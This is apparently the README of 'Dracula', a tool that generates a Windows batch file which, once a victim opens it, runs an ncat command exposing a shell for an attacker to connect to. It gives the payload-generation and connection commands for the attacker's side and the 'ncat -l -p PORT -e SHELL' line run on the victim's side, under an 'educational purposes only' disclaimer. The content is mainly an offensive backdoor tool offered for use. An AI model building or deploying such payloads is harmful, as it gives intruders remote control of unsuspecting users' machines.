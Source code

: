 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS FOR ANY ILLEGAL ACTIVITIES**

```
         _____                       _       
        |  __ \                     | |      
        | |  | |_.__ __._  ___ _   _| | __._ 
        | |  | |  __/ _  |/ __| | | | |/ _  |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__._|\___|\__._|_|\__._|

```

Dracula is a reverse shell generator built around the cmd used for ncat reverse shell

<img src="Main/imgs/example.png">

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Install nmap (on linux systems)

        sudo apt install nmap 

2. Run the dracula.py file and enter the required info
3. A batch file is generated 

### **Attacker's Side**
Generate payload:

```
Dracula >> -p <TARGET_PORT> -s <SHELL_TYPE> -o <OUTPUT_FILE_NAME>
```

Command to connect to the target machine:

```
Dracula >> -l -i <TARGET_IP> -p <TARGET_PORT>
```
replace the TARGET_IP with ip addr of client and TARGET_PORT with port used in the attack

**NOTE: the port used in above command must be same as the the one used in payload.**

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```